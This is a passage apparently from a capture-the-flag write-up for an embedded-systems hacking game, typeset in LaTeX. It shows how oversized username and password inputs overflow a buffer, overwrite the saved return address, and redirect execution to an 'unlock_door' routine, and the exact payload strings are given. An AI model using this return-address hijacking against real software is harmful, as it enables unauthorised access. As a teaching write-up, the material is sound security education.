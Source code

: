 \documentclass[a4paper,11pt]{article}
\begin{document}
Let's try that.

I enter
\texttt{aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa}
(length of 0x20) as username.

we want the toal to be 0x0100 to test our hypothesis. So we need 0xd0
more (14 * 16 = 224 bytes).

Entering
\texttt{bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb}
it works and we get lost at a random address. We've successfully
overwrote the return address.

Breaking on the return instruction we can see at what address the Saved
PC is (at the SP address).

\includegraphics{img/11_5.PNG}

So we can enter our personalized return address at the byte number 5 and
6 of our password (if our username is of length 0x20 of course). Let's
return at the instruction \texttt{unlock\_door}.

So entering the same username, and this as password works:

\texttt{bbbbbbbb1c46bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb}

\section{Level 12: Addis Ababa}\label{level-12-addis-ababa}

\includegraphics{img/12_1.PNG}
\end{document}
